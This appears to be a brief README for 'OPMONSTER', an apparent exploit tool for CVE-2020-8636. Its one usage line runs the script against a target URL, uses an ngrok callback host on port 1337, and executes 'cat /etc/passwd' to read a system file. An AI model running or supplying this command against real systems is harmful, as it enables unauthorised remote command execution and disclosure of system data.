# OPMONSTER
### CVE-2020-8636 by @phor3nsic

<img src="img/opmonster.png">
  
  
**python3 opmonster.py https://vulnhost.com http://myhost.ngrok.io 1337 "cat /etc/passwd"**
